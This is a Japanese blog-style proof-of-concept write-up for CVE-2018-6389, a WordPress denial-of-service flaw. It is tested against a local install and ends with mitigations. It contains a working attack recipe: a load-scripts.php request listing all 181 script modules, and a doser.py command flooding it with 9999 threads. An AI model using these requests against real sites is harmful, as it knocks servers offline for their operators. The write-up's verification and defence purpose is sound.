



CVE-2018-6389 POC
Table of Contents
1 脆弱性の概要
- サーバーのCPUに負担をかけるタイプのDos攻撃
- 本来の性能のための機能であるload-scripts.php、load-styles.phpの脆弱性を悪用する
- wp-login.phpも、その機能が入っているので、認証なしの攻撃が可能である。
（もしwp-login.phpページにアクセス制限がかかっている場合、外部からの攻撃は不可能）
- このページでは、実際に攻撃が可能かどうか検証する。
2 POCの概要
2.1 ハッキング環境
- あらかじめ設置しておいたワードプレスを活用する。
3 POC 進行
3.1 load-scripts が駆動するかどうかをチェック
http:/localhost/wordpress/wp-admin/load-scripts.php?c=1&load[]=jquery-ui-core&ver=4.9.1 を要請してみる。
説明文のようにjQuery UIのjsコードを出力してくれるのを見ることができる。load-scripts.phpが駆動されていることを確認した。

3.2 script-loader.php チェック
script-loader.phpには各種のスクリプトをロードするためのコードがあることを確認した。

3.3 load[]パラメータにロード可能なすべてのスクリプトを指定
script-loader.phpに書かれている次の181個のモジュールをload[]パラメータに指定する。
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
結果は以下の通りである。正常にサーバーで処理されたことが確認できる。2.2秒かかった説明文とは異なり、1秒以内にサーバ側からの返信が来た。これは、ハッキング環境がローカル環境なので、ネットワークの負荷だけの時間が追加されていないと思われる。

3.4 doser.pyを使用して多くの同じ要求を送信する
同じ要求を信じられないほど多くの送信どうなるか？最初報告者が提供したdoser.pyを使用してテストをしてみる。
下のコマンドは、同じGETリクエストを9999個のスレッドで実行するコマンドである。
python doser.py -g '攻撃URL' -t 9999
結果は以下の通りである。


サーバー側の状態を整理すると、次の通りである。
- サーバ側のCPU使用率がほぼ100％近く上がっている状態が持続される。（正常な運営が難しい程度）
- 要求を処理するためのapache2プロセスが非常に増える。
- accessログ（/var/load/apache2/access.log）の容量が突然数メガバイト増える。
ここまでのPOCで、実際にDOS攻撃が可能なことを確認した。
4 対応方法
ワードプレスの開発チームは、この脆弱性を対応していないと発表した。
現在までに知られている対応方法は
1）ワーププレスでloadモジュールの使用を防ぐユーザー・パッチの適用
2）Apacheの同時要求の制限
がある。次の記事では、この対応方法について検証してみよう。